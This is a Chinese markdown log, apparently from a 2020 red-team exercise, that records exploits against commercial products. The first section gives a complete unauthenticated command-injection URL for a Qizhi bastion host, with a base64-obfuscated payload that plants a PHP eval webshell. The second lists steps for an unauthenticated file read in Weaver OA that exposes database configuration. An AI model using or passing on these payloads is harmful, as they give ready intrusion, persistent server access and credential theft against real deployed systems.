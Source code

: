 # 2020HVV记录
`@Time   : 2020/9/15 08:52`
`@Author : 852782749@qq.com`


```
开始编辑～
```
### 齐治堡垒机前台远程命令执行漏洞
![](images/hvv_01.png)
> 漏洞利用：
>
> 利用条件：无需登录：
```angular2

第一
http://10.20.10.11/listener/cluster_manage.php 返回“OK”。
第二，执行以下链接即可 getshell，执行成功后，生成 PHP 一句话马
/var/www/shterm/resources/qrcode/lbj77.php 密码 10086，使用 BASE64 进行编码。这里假设 10.20.10.10 为堡垒机的 IP 地址。
```
```angular2
https://10.20.10.10/ha_request.php?action=install&ipaddr=10.20.10.11&node_id=1${I
FS}|`echo${IFS}"ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7Pz
4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base64
${IFS}-d|bash`|${IFS}|echo${IFS}
```
> 特征：
>
> 漏洞利用点：
```angular2
https://10.20.10.10/ha_request.php
Poc 形式：
${IFS}|`echo${IFS}"ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7
Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base
64${IFS}-d|bash`|${IFS}|echo${IFS}
```

### 泛微OA云桥任意文件读取漏洞

> 利用/wxjsapi/saveYZJFile接口获取filepath,返回数据包内出现了程序的绝对路径,攻击者可以通过返回内容识别程序运行路径从而下载数据库配置文件危害可见。
>

![](images/hvv_02.png)

> 未授权任意文件读取,`/wxjsapi/saveYZJFile`接口获取`filepath`,返回数据包内出现了程序的绝对路径,攻击者可以通过返回内容识别程序运行路径从而下载数据库配置文件危害可见。
>
> 1、`downloadUrl`参数修改成需要获取文件的绝对路径,记录返回包中的id值。
![](images/hvv_22.png)

> 2、通过查看文件接口访问 `/file/fileNoLogin/id`
![](images/hvv_23.png)
